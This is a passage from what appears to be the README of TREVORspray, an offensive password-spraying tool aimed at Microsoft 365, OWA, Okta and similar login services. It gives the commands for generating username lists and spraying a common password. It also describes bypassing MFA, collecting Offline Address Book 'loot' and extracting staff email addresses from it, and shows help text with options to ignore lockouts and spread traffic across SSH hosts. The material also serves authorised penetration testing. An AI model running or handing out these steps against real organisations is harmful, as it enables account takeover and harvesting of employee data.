 ```bash
    # generate emails in f.last format
    echo "${f}.${last}@evilcorp.com"
  done
done | tee f.last.txt

trevorspray -u f.last.txt -p 'Welcome123'
```

## Extract data from downloaded LZX files
When TREVORspray successfully bypasses MFA and retrieves an Offline Address Book (OAB), the address book is downloaded in LZX format to `~/.trevorspray/loot`. LZX is an ancient and obnoxious compression algorithm used by Microsoft.
~~~bash
# get libmspack (for extracting LZX file)
git clone https://github.com/kyz/libmspack
cd libmspack/libmspack/
./rebuild.sh
./configure
make

# extract LZX file
./examples/.libs/oabextract ~/.trevorspray/loot/deadbeef-ce01-4ec9-9d08-1050bdc41131-data-1.lzx oab.bin
# extract all strings
strings oab.bin
# extract and dedupe emails
egrep -oa '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}' oab.bin | tr '[:upper:]' '[:lower:]' | sort -u
~~~

## TREVORspray - Help:
```
$ trevorspray --help
usage: trevorspray [-h] [-m {owa,okta,anyconnect,adfs,msol}] [-u USERS [USERS ...]] [-p PASSWORDS [PASSWORDS ...]] [--url URL] [-r DOMAIN] [-t THREADS] [-f] [-d DELAY]
                   [-ld LOCKOUT_DELAY] [-j JITTER] [-e] [-nl] [--ignore-lockouts] [--timeout TIMEOUT] [--random-useragent] [-6] [--proxy PROXY] [-v] [-s USER@SERVER [USER@SERVER ...]]
                   [-i KEY] [-b BASE_PORT] [-n] [--interface INTERFACE] [--subnet SUBNET]

A password sprayer with the option to load-balance traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit

basic arguments:
  -m {owa,okta,anyconnect,adfs,msol}, --module {owa,okta,anyconnect,adfs,msol}
                        Spray module to use (default: msol)
  -u USERS [USERS ...], --users USERS [USERS ...]
                        Usernames(s) and/or file(s) containing usernames
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  --url URL             The URL to spray against
  -r DOMAIN, --recon DOMAIN, --enumerate DOMAIN
                        Retrieves MX records and info related to authentication, email, Azure, Microsoft 365, etc. If --usernames are specified, this also enables username enumeration.

advanced arguments:
  Round-robin traffic through remote systems via SSH (overrides --threads)

  -t THREADS, --threads THREADS
                        Max number of concurrent requests (default: 1)
  -f, --force           Try all usernames/passwords even if they've been tried before
```